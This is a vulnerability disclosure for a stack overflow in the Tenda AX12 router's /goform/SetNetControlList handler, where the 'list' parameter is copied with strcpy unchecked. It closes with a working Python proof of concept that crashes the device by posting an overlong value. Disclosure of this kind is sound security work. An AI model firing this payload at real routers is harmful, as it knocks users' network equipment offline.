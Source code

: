 Affect device: Tenda-AX12 V22.03.01.21_CN(https://www.tenda.com.cn/download/detail-3237.html)

Vulnerability Type: Stack overflow

Impact: Denial of Service(DoS)

# Vulnerability description

This vulnerability lies in the `/goform/SetNetControlList` page which influences the lastest version of Tenda-AX12 V22.03.01.21_CN(https://www.tenda.com.cn/download/detail-3237.html)

There is a stack overflow vulnerability in the `sub_4327CC` function.

The `v2` variable is obtained directly from the http request parameter `list`.

And then it calls the `sub_4325BC` function.

![image](image/1.png)

However, in the `sub_4325BC` function, it calls the strcpy function to a1 to v14 without any security check, which causes the stack overflow.

![image-20220209162909094](image/2.png)

So by POSTing the page `/goform/SetNetControlList` with long `list`, the attacker can easily perform a Denial of Service(DoS).

# POC

Poc of Denial of Service(DoS):

```python
import requests

url = "http://192.168.0.1/goform/SetNetControlList"
list_data = 'a'*0x1000 + '\n'

r = requests.post(url, data={'list': list_data})
print(r.content)
```

